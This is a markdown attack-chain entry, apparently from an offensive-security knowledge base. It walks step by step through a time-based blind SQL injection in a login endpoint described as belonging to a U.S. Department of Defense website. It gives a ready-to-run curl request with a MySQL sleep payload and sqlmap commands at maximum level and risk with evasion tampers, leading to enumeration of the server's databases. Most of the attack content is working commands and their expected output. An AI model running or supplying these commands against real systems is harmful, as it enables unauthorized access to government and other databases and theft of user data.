

---
tags:
  - sqli
  - blind-sqli
  - time-based
  - mysql
  - database-enumeration
type: attack_chain
tools:
  - '[[tools/sqlmap]]'
tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
  - MySQL
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Manual-Time-Based-SQLi-Verification]]'
  - '[[procedures/Automated-SQLi-Confirmation-with-sqlmap]]'
  - '[[procedures/Database-Enumeration-with-sqlmap]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T03:46:20.028Z'
description: >-
  A multi-step attack exploiting time-based blind SQL injection in a web login
  form to confirm vulnerability and enumerate databases on a MySQL backend.
skill_level: intermediate
impact_level: high
id: effd9266-9fa2-4228-bc20-44b3f9be1682
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# Time-Based Blind SQL Injection in Login Endpoint Leading to Database Enumeration

Multi-stage attack chain demonstrating exploitation of a time-based blind SQL injection vulnerability in the /olc/setlogin.php endpoint of a U.S. Department of Defense website, leading to database enumeration and potential data exfiltration.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/sqlmap]]
- curl or similar for manual requests

### Target Environment

- Web platform with PHP/Apache
- MySQL database service on port 443 (HTTPS)
- Publicly accessible login endpoint

### Initial Access Requirements

- Network access to the target website
- No credentials required for initial injection testing
- Ability to send POST requests

## Detailed Attack Procedures

### Step 1: Manual Verification
procedure: [[procedures/Manual-Time-Based-SQLi-Verification]]

**Objective**: Confirm the presence of time-based blind SQL injection in the username parameter by inducing a response delay.

**Instructions**: Send a crafted POST request to the login endpoint using a payload that triggers a 5-second sleep in MySQL.

Use curl to simulate the request:

```bash
curl -X POST https://target.com/olc/setlogin.php -d "username=admin'+(select*from(select(sleep(5)))a)+'&password=pass" -v
```

**Expected Output**: A 5-second delay in the response, indicating successful injection.

**Success Indicators**:
- Response time increases by approximately 5 seconds
- No immediate error, but delayed processing confirms blind injection

### Step 2: Automated Confirmation
procedure: [[procedures/Automated-SQLi-Confirmation-with-sqlmap]]

**Objective**: Use sqlmap to automatically detect and characterize the SQL injection types, including boolean-based and time-based blind.

**Instructions**: Run sqlmap with high risk and level settings to test the username parameter.

Execute [[commands/sqlmap-verify-injection]]:

```bash
python3 sqlmap.py --level=5 --risk=3 --tamper=space2comment --random-agent -u https://target.com/olc/setlogin.php --data="username=admin&password=pass" -p username --dbms=mysql
```

**Expected Output**: Confirmation of boolean-based blind and time-based blind injections, MySQL version details, and web server info (Apache).

**Success Indicators**:
- sqlmap identifies injection techniques
- No 302 redirect interference (answer 'n' to follow prompt if needed)

### Step 3: Database Enumeration
procedure: [[procedures/Database-Enumeration-with-sqlmap]]

**Objective**: Enumerate all accessible databases to demonstrate unauthorized access and potential for sensitive data extraction.

**Instructions**: Extend the sqlmap session to list databases using the --dbs flag.

Execute [[commands/sqlmap-enumerate-databases]]:

```bash
python3 sqlmap.py --level=5 --risk=3 --tamper=space2comment --random-agent -u https://target.com/olc/setlogin.php --data="username=admin&password=pass" -p username --dbms=mysql --dbs
```

**Expected Output**: List of 13 databases, including information_schema, mysql, testusers, and others like LEAM, SET.

**Success Indicators**:
- Multiple databases listed, including user-related ones
- Confirmation of access to custom databases indicating high impact

## Attack Chain Summary

### Key Achievements

1. Verified blind SQL injection manually via time delay
2. Automated detection of injection types using sqlmap
3. Enumerated 13 databases, exposing potential sensitive information in user tables

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
